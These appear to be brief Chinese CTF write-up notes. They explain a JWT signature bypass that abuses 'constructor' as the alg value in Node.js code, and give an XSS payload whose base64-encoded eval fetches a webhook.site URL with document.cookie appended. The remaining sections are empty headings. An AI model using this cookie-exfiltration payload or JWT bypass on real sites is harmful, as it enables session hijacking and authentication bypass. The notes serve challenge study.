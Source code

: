 # web
### BadJwt
#nodejs
传入jwt,token为输入,secret为服务器随机生成36位密钥.下面这个函数负责计算secret
```js

const createSignature = (header, payload, secret) => {
	const data = `${stringifyPart(header)}.${stringifyPart(payload)}`;
	const signature = algorithms[header.alg.toLowerCase()](data, secret);
	return signature;
}

const algorithms = {
	hs256: (data, secret) => 
		base64UrlEncode(crypto.createHmac('sha256', secret).update(data).digest()),
	hs512: (data, secret) => 
		base64UrlEncode(crypto.createHmac('sha512', secret).update(data).digest()),
}
```

当传入特殊的属性如`constructor`时,`algorithms[header.alg.toLowerCase()](data, secret);`
返回函数的构造方法,
![image](https://i.imgur.com/8CnkB7o.png)
>TL;DR explanation: 
`const signature = algorithms[header.alg.toLowerCase()](data, secret);` is vulnerable to ["constructor"], calling the array constructor with the params -> results in an arr of dicts
const calculated_buf = Buffer.from(calculated_signature, 'base64'); casts everything to a primitive -> arr of dict gets "stringified"

### blink
#xss 
popover框架
```html
<iframe srcdoc="<a id=togglePopover href='cid:eval(atob(`ZmV0Y2goJ2h0dHBzOi8vd2ViaG9vay5zaXRlL2RjZTFiNmZjLTQ1M2MtNDI1Zi1hY2MyLTAwNTFkY2Y4NWMxOD8nK2RvY3VtZW50LmNvb2tpZSk`))'></a>" name="body"></iframe>
```
### eeeeejs

# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-09-19   14:50